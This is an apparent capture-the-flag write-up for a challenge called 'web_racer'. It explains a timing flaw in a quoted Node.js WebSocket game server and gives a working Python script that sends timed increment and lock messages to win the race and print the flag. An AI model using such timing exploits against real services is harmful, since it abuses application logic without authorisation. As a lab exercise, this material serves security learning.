

# web_racer

> win the race

Provided: [`websocketracer_server.js`](websocketracer_server.js)

## Solution

When reading through the provided JavaScript file, I thought this block was the most interesting:

```js
// websocketracer_server.js - lines 26-40
if (data.action === 'increment' && !lockFlag) {
    currentPosition += 100;
    socket.send(JSON.stringify({ action: 'status', position: currentPosition }));
} else if (data.action === 'lock') {
    lockFlag = true;
    setTimeout(() => {
        if (currentPosition >= targetPosition) {
            socket.send(JSON.stringify({ action: 'win', flag: secretFlag }));
        } else {
            socket.send(JSON.stringify({ action: 'lose' }));
        }
        currentPosition = 0;
        lockFlag = false;
    }, 990);
} // ...
```

There's basically two actions that we can do (well technically 3, but manual resetting is irrelevant).
The `increment` action increments our current position, while the `lock` action sends either the flag or a loss message, depending on how our current position compares to `targetPosition` (1000).

...well, that's not entirely true. Because of the `setTimeout` call, the result message is only sent out (at least) 990 milliseconds after we lock.
As it turns out, this is a bit of a problem because the server also resets our position every second:

```js
// websocketracer_server.js - lines 16-20
const resetInterval = setInterval(() => {
    currentPosition = 0;
    lockFlag = false;
    socket.send(JSON.stringify({ action: 'reset' }));
}, 1000);
```

This means that we need to get to a position of 1000 and send a lock message within 10 milliseconds.
Luckily for us, computers are really good at doing things fast (or at least much better than humans anyways).
Because all communication is done over a WebSocket, we can just communicate with the server directly, bypassing the entire web interface.
The WebSocket address can be found in your browser of choice's devtools (this is Firefox as an example):

<div align="center">

</div>

With that address in hand, you can then move on to scripting interactions with the racing server.
Unfortunately, though, you can't just spam increments then lock; you have to time it properly because network latency exists and is a real thing :)

Based on some *very* scinetific testing, my team figured out how to correct for that latency and ended up with this program which works a solid 99% of the time:

```python
import asyncio
import json
import time

import websockets as webs

INCREMENT = json.dumps({"action":"increment"})
LOCK = json.dumps({"action":"lock"})

async def main():
    async with webs.connect("ws://chal.ctf-league.osusec.org:1329") as ws:
        # network latency :)
        await asyncio.sleep(0.980)
        for i in range(10):
            await ws.send(INCREMENT)

        await ws.send(LOCK)
        
        tries = 0
        # just print like everything lmao
        while "OSU" not in (res := await ws.recv()):
            tries += 1
            
            if tries > 15:
                print("Unable to get flag this time :(")
                break

        # yes else can be used with while loops, this is probably like *the* use case for it :)
        else:
            flag = json.loads(res)["flag"]
            print("Flag:", flag)

if __name__ == "__main__":
    asyncio.run(main())
```

Running that does indeed get you the flag:

```shell
$ python speeeed.py
Flag: OSU{w3bs0cket_r4c3_c0nd1t10n}
```

Honestly a pretty neat little challenge!
I was glad to be able to use an else clause on a while loop in Python for once, the more you know I guess :)